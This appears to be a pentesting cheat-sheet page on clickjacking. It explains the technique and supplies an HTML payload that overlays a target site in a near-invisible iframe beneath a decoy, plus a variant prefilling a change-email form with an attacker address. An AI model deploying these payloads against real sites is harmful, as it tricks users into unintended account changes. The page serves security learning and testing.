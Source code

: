 # Clickjacking (UI redressing)

Clickjacking, also known as a 'UI redress attack,' is a malicious technique where an attacker tricks a user into clicking on something different from what the user perceives, effectively hijacking their clicks to perform unintended actions, often without their knowledge or consent.

### Table of content

- [how it works](#how-it-works)
- [default payload](#default-payload)

## How it works ? 

The idea of the exploit is to create a fake website wich contain in background the target website load with `<iframe>` with opacity 0. Create a fake button, situated exaclty over a real button on the target site, and when the user gonna click on the button, it gonna click on the target web site's button.

## Default payload

Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:

```html
<html>
    <head>
        <style>
            #target_website {
                position:relative;
                width:800px;
                height:600px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://vulnerable-website.com">
        </iframe>
    </body>
</html>
```

## Clickjacking with prefilled form input

If you want the user submit a form on the target website, you can try prefill the form input by giving the value in URL parameters.

this iframe:

```html
<iframe id="target_website" src="https://vulnerable-website.com">
```

could be change to:

```html
<iframe id="target_website" src="https://vulnerable-website.com/change-email?email=pwn@gg.com">
```



---

[**:arrow_right_hook: Back home**](/README.md)